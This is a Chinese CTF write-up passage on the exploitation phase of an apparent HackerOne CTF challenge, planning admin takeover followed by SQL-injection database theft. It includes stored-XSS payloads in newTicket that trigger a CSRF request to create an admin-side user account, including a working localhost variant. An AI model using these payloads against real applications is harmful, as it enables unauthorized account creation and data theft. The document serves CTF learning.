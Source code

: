 ### 渗透利用

执行 漏洞分析 过程之后, 掌握多个漏洞之后, 就要利用这些漏洞, 可能是单个漏洞的利用, 也可能是组合利用

为来达成 测试目标“用户数据库”, 构建以下攻击思路

以管理员凭证登陆系统, 并利用 SQL 注入漏洞拖库, SQL 注入点已找到, 关键在于怎么获取管理员凭证

- 思路 1: 破解 session
- 思路 2: 通过 xss 窃取 cookie
- 思路 3: 通过 CSRF 添加账户
- 思路 4: 暴力破解密码

经过 session 的 base64 解码, session 的前一部分是{“user”:”admin”}, 但后一部分乱码, 无思路。

暴力破解也是下下策, 毕竟如果用 top10000 的字典跑不出来, 不是这个解题方向。

通过 xss 窃取 cookie 和 CSRF 添加账户均可行。可因为 hackerOne CTF 环境限制, xss 窃取 cookie 无法成功。最后可以试试 CSRF

通过漏洞 1 **newTicket 存储型 XSS** 注入```<img src='newUser?username=pter&password=admin123&password2=admin123'>``` 这样当 admin 访问 ticket 页面时, 会触发 CSRF, 添加一个新用户 pter, 密码为 admin123

我尝试了以下几个Payload

```
# payload 1
POST /b9b2ddf96c/newTicket HTTP/1.1
Host: 35.190.155.168
...

title=xx<img src="/newUser?username=pter1%26password=admin123%26password2=admin123">&body=xx<img src="/newUser?username=pter1%26password=admin123%26password2=admin123">
```

```
# paylod 2
POST /b9b2ddf96c/newTicket HTTP/1.1
Host: 35.190.155.168
...

title=xx<img src="http://35.190.155.168/b9b2ddf96c/newUser?username=pter1%26password=admin123%26password2=admin123">&body=xx<img src="http://35.190.155.168/b9b2ddf96c/newUser?username=pter1%26password=admin123%26password2=admin123">
```

都没有成功，所以本题我也没解出来，导致两个 FLAG 都拿不到。

网上查了些 Writeup，发现以下 payload 可行

```
POST /b9b2ddf96c/newTicket HTTP/1.1
Host: 35.190.155.168
...

title=xx<img src="http://localhost/newUser?username=pter1%26password=admin123%26password2=admin123">&body=xx<img src="http://localhost/newUser?username=pter1%26password=admin123%26password2=admin123">
```
